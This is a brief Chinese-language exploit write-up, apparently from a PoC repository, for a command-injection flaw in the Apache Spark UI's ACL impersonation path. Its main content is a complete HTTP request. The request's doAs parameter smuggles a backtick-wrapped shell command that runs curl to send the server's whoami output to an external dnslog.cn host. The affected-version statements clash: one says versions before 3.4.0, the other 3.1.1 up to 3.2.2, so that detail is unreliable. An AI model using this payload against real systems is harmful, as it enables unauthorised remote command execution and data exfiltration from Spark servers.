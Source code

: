 ## 介绍
Apache Spark是美国阿帕奇（Apache）基金会的一款支持非循环数据流和内存计算的大规模数据处理引擎。

Apache Spark 3.4.0之前版本存在命令注入漏洞，该漏洞源于如果ACL启用后，HttpSecurityFilter中的代码路径可以允许通过提供任意用户名来执行模拟，这将导致任意shell命令执行。

## 漏洞版本
3.1.1 <= Apache Spark < 3.2.2

## 利用条件
Apache Spark UI 启用 ACL ，且低权限

## 漏洞poc
```
GET /jobs/?doAs=`curl+$(whoami)hw9y0l.dnslog.cn` HTTP/1.1
Host: 10.211.55.7:4040
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0  Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```
